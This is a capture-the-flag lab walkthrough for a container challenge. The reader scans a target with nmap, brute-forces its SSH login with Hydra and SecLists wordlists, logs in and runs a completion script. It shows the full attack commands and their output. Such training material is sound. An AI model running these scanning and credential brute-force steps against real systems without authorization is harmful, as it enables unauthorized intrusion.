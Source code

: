 ## Machines on network:

172\.28.1.4 **SSH Server**

172\.28.1.5 - **Kali Linux container**

## Overview of Challenge:
This challenge takes the user through using a password and username list to bruteforce an SSH server with weak credentials. 

**SSH** or secure shell is a tool and protocol for connecting securely between two hosts. In this challenge, our end goal will be to use the weak credentials found by bruteforcing the SSH server to run a completion script on our target machine. 

**Hydra** is the tool we will be using to run the brute force attack on the server. Hydra can be used for bruteforce attacks on many protocols, but in this challenge we will be using it for bruteforcing SSH.

**nmap** is a port scanning tool, we can use this tool to determine what is running and accessible on a target IP or network.

**Wordlists** are lists of common usernames, passwords, web endpoints, etc... that we can use to try and guess credentials, website addresses, and more.

Walkthrough:

## 1) Scanning the target

Our first objective will be to run a nmap port scan on our target machine. We can start the scan with the following command:

```nmap -sV 172.28.1.4```

The -sV specifies nmap to run a service scan on the target machine, whose IP is 172\.28.1.4 

This command will output the following:

```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-09 03:55 UTC
Nmap scan report for challengecomposefiles-bruteforce-ssh-1.webnet (172.28.1.4)
Host is up (0.000014s latency).
Not shown: 999 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
2222/tcp open  ssh     OpenSSH 9.6 (protocol 2.0)
MAC Address: 02:42:AC:1C:01:04 (Unknown)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 0.43 seconds

```
As we can see, nmap detects a OpenSSH server running on port 2222

## 2) Attacking the target
Now that we have found an open port to exploit, we can start our attack. For this attack we will use the "top-usernames-shortlist.txt" as our username wordlist, and the "2020-200_most_used_passwords.txt" as our password wordlist. These wordlists are from the Seclist repository, which can be found here https://github.com/danielmiessler/SecLists. We can use the following Hydra command to start the attack

```hydra -s 2222 -L top-usernames-shortlist.txt -P 2020-200_most_used_passwords.txt 172.28.1.4 ssh```

**"-s 2222"** specifies the port, by default Hydra will attack port 22 for SSH, as that is the default port for SSH, but our target is configured to listen on port 2222.

**"-L top-usernames-shortlist.txt"** specifies our username wordlist

**"-P 2020-200_most_used_passwords.txt"** specifies our password wordlist

**"172.28.1.4 ssh"** specifies our target IP, and tells Hydra to attack over SSH

This command will output:
```
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-05-09 04:13:52
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 3349 login tries (l:17/p:197), ~210 tries per task
[DATA] attacking ssh://172.28.1.4:2222/
[STATUS] 156.00 tries/min, 156 tries in 00:01h, 3195 to do in 00:21h, 14 active
[2222][ssh] host: 172.28.1.4   login: <redacted>   password: <redacted> 
```
As shown in the output, we found a pair of working credentials! Now let's use them to gain access to the machine!

## 2) Accessing the target
Now that we have a set of credentials, lets login! 

We can login to the target over SSH with the following command (Just replace \<redacted> with the username Hydra found)

```ssh <redacted>@172.28.1.4 -p 2222```

You will be prompted for the password you just found, and then you will have a shell!

If we run ```ls -la``` in our new shell, we will get the following output:

``` 526645b89d41:~$ ls -la
total 28
drwxr-xr-x 5 admin users 4096 May  9 04:13 .
drwxr-xr-x 1 root  root  4096 May  9 04:13 ..
drwx------ 2 admin users 4096 May  9 03:54 .ssh
-rwxr-xr-x 1 admin users   74 May  9 00:46 complete.sh
drwxr-xr-x 3 admin users 4096 May  9 03:54 logs
drwxr-xr-x 2 admin users 4096 May  9 04:13 ssh_host_keys
-rw-r--r-- 1 admin users    4 May  9 04:13 sshd.pid
526645b89d41:~$ 
```

As you can see, there appears to be a script called "complete.sh" that we can run. We can run it using the following command

```./complete.sh```

After running the script, we can check the challenge tracking page at http://172.28.1.2 and the challenge should be marked as complete!